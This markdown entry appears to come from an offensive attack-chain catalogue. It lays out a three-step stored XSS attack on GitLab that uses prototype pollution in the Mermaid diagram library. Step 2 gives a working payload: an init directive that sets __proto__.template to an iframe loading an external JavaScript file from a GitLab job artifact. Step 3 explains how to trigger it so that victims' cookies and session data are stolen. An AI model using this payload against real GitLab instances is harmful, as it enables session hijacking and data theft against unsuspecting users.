

---
tags:
  - xss
  - prototype-pollution
  - gitlab
  - mermaid
  - stored-xss
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-Issue-in-GitLab-Repository]]'
  - '[[procedures/Embed-Malicious-Mermaid-Diagram-in-Issue]]'
  - '[[procedures/Trigger-Stored-XSS-via-UI-Interaction]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:43.619Z'
description: >-
  A multi-stage attack exploiting prototype pollution in the Mermaid library
  within GitLab to achieve stored XSS, allowing arbitrary JavaScript execution
  upon minimal user interaction.
skill_level: intermediate
impact_level: high
id: 45a02dcb-fec3-4f22-9ea3-ff78ee351b2b
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored-XSS-via-Mermaid-Prototype-Pollution-in-GitLab

Multi-stage attack chain demonstrating a complete attack workflow exploiting prototype pollution in the Mermaid diagramming library used by GitLab to inject malicious payloads into issues, leading to stored XSS that executes JavaScript in the victim's browser context.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- GitLab account with write access to a repository

### Target Environment

- GitLab instance (self-hosted or SaaS)
- Web browser for interaction
- No specific ports or services beyond standard HTTPS access to GitLab

### Initial Access Requirements

- Authenticated user account in GitLab with permission to create issues in a project
- Network access to the GitLab instance
- No prior elevated access needed; assumes standard user privileges

## Detailed Attack Procedures

### Step 1: Create Issue in GitLab Repository
procedure: [[procedures/Create-Issue-in-GitLab-Repository]]

**Objective**: Establish a vector for injecting the malicious payload by creating a new issue in a target repository.

**Instructions**: Navigate to the GitLab project repository using the web interface. Click on the "Issues" tab, then select "New issue". Provide a title and leave the description empty for now, as it will be populated in the next step. Submit the issue to generate its URL.

**Expected Output**: A new issue is created, accessible via a unique URL (e.g., https://gitlab.com/username/project/-/issues/1).

**Success Indicators**:
- Issue successfully created and visible in the repository
- Issue URL generated and accessible

### Step 2: Embed Malicious Mermaid Diagram in Issue
procedure: [[procedures/Embed-Malicious-Mermaid-Diagram-in-Issue]]

**Objective**: Inject a prototype pollution payload via the Mermaid init directive to pollute the global object prototype, setting a malicious template that enables XSS.

**Instructions**: Edit the issue description in the GitLab UI. Insert the following Mermaid code block containing the init directive payload:

````markdown
%%{init: { "__proto__": { "template": "<iframe xmlns=\"http://www.w3.org/1999/xhtml\" srcdoc=\"<script src=https://gitlab.com/bugbountyuser1/csp/-/jobs/1030502035/artifacts/raw/payload.js></script>\">" } } }%%
sequenceDiagram
    Alice->>Bob: Hi Bob
    Bob->>Alice: Hi Alice
````

Save the changes to the issue description.

**Expected Output**: The issue description now contains the embedded Mermaid diagram with the hidden init payload; the diagram renders benignly on the surface.

**Success Indicators**:
- Payload embedded without syntax errors
- Mermaid diagram renders correctly in the issue view
- No immediate errors or sanitization blocks the init directive

### Step 3: Trigger Stored XSS via UI Interaction
procedure: [[procedures/Trigger-Stored-XSS-via-UI-Interaction]]

**Objective**: Load the vulnerable issue page and perform minimal interaction to execute the polluted template as XSS, running the external JavaScript payload.

**Instructions**: Open the issue URL in a web browser (e.g., https://gitlab.com/cataha319/stored-xss/-/issues/2). Wait for the page to fully load, including the rendering of the Mermaid diagram. Then, click on the search menu in the top navigation bar to trigger the template pollution and execute the iframe-based script.

**Expected Output**: The malicious JavaScript from the external source executes in the browser context, potentially displaying alerts, stealing session data, or performing actions on behalf of the victim.

**Success Indicators**:
- JavaScript payload executes (e.g., alert popup or network requests to attacker-controlled server)
- Victim's cookies or data exfiltrated
- No additional interactions beyond page load and search click required

## Attack Chain Summary

### Key Achievements

1. Successful prototype pollution of the global Object via Mermaid init directive
2. Injection of arbitrary HTML/JS leading to stored XSS in GitLab issues
3. Execution with minimal user interaction, enabling session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
